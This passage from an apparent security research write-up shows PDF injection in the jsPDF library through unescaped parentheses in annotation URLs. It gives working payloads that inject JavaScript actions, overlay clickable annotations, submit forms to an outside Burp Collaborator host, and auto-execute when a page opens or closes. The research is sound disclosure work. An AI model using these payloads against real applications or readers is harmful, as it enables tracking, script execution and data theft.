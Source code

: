 ### sPDF

Next I applied my methodology to another PDF library - [jsPDF](https://parall.ax/products/jspdf) - and found it was vulnerable too. Exploiting this library was quite fun because they have an API that can execute in the browser and will allow you to generate the PDF in real time as you type. I noticed that, like the PDP-Lib library, they forgot to escape parentheses inside annotation URLs. Here the url property was vulnerable:`doc.createAnnotation({bounds:`\
`{x:0,y:10,w:200,h:200},`\
``type:'link',url:`/input`});``\
`//vulnerable`

So I generated a PDF using their API and injected PDF code into the url property:

`var doc = new jsPDF();`\
`doc.text(20, 20, 'Hello world!');`\
`doc.addPage('a6','l');`\
`doc.createAnnotation({bounds:`\
`` {x:0,y:10,w:200,h:200},type:'link',url:` ``\
`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action/F 0/(`\
`` `}); ``

I reduced the vector by removing the type entries of the dictionary and the unneeded F entry. I then left a dangling parenthesis that would be closed by the existing one. Reducing the size of the injection is important because the web application you are injecting to might only allow a limited amount of characters.`/blah)>>/A<</S/JavaScript/JS(app.alert(1)`

I then worked out that it was possible to reduce the vector even further! Acrobat would allow a URI and a JavaScript entry within one annotation action and would happily execute the JavaScript:`/)/S/JavaScript/JS(app.alert(1)`

Further research revealed that you can also inject multiple annotations. This means that instead of just injecting an action, you could break out of the annotation and define your own rect coordinates to choose which section of the document would be clickable. Using this technique, I was able to make the entire document clickable. `/) >> >>`\
`<</Type /Annot /Subtype /Link /Rect [0.00 813.54 566.93 -298.27] /Border [0 0`\
`0] /A <</S/SubmitForm/Flags 0/F(https://your-id.burpcollaborator.net`

### Executing annotations without interaction

So far, the vectors I've demonstrated require a click to activate the action from the annotation. Typically, James asked the question "Can we execute automatically?". I looked through the PDF specification and noticed some interesting features of annotations:

"The **PV** and **PI** entries allow a distinction between pages that are open and pages that are visible. At any one time, only a single page is considered open in the viewer application, while more than one page may be visible, depending on the page layout."

We can add the PV entry to the dictionary and the annotation will fire on Acrobat automatically! Not only that, but we can also execute a payload automatically when the PDF document is closed using the PC entry. An attacker could track you when you open the PDF and close it.

Here's how to execute automatically from an annotation:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/)``\
`>> >>`\
``<</Subtype /Screen /Rect [0 0 900 900] /AA <</PV <</S/JavaScript/JS(app.alert(1))>>/(`});``\
`doc.text(20, 20, 'Auto execute');`
